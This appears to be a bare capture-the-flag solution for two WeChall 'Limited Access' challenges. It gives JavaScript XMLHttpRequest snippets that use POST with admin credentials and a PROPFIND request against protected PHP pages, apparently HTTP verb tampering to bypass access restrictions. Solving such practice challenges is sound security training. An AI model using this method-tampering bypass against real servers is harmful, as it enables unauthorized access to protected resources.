 ## Limited Access

tmp = new XMLHttpRequest();
tmp.open("POST", "http://www.wechall.net/challenge/wannabe7331/limited_access/protected/protected.php", true);
tmp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
tmp.send("id=admin&pw=admin");

## Limited Access Too

tmp = new XMLHttpRequest();
tmp.open("PROPFIND", "http://www.wechall.net/challenge/wannabe7331/limited_access_too/protected/protected.php")
tmp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
tmp.send();
